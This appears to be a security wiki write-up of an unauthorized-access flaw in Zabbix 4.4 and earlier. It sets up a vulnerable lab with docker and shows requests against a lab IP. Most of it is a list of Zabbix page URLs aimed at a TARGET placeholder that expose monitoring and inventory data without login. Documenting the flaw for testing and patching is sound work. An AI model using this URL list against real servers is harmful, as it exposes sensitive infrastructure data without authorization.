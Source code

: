# Zabbix Unauthorized Access Vulnerability

## Vulnerability Description

There is an unauthorized access vulnerability in Zabbix, through which the attacker can access the data on the Zabbix server without authorization, leading to the leak of sensitive information.

## Affected Versions

Zabbix <= 4.4

## Environment Setup

```
docker run -p 10051:10051  -p 80:80 zabbix/zabbix-appliance:ubuntu-4.0.12
```

## Exploitation

Access: http://192.168.32.183/zabbix.php?action=problem.view&ddreset=1

![image-20220726150813375](../../.gitbook/assets/image-20220726150813375.png)

Access: http://192.168.32.183/overview.php?ddreset=1

![image-20220726150910028](../../.gitbook/assets/image-20220726150910028.png)

Access: http://192.168.32.183/latest.php?ddreset=1

![image-20220726150855422](../../.gitbook/assets/image-20220726150855422.png)

The following links can also be accessed:

- https://TARGET/zabbix/zabbix.php?action=dashboard.view
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&ddreset=1
- https://TARGET/zabbix/zabbix.php?action=problem.view&ddreset=1
- https://TARGET/zabbix/overview.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=web.view&ddreset=1
- https://TARGET/zabbix/latest.php?ddreset=1
- https://TARGET/zabbix/charts.php?ddreset=1
- https://TARGET/zabbix/screens.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=map.view&ddreset=1
- https://TARGET/zabbix/srv_status.php?ddreset=1
- https://TARGET/zabbix/hostinventoriesoverview.php?ddreset=1
- https://TARGET/zabbix/hostinventories.php?ddreset=1
- https://TARGET/zabbix/report2.php?ddreset=1
- https://TARGET/zabbix/toptriggers.php?ddreset=1
- https://TARGET/zabbix/zabbix.php?action=dashboard.list
- https://TARGET/zabbix/zabbix.php?action=dashboard.view&dashboardid=1

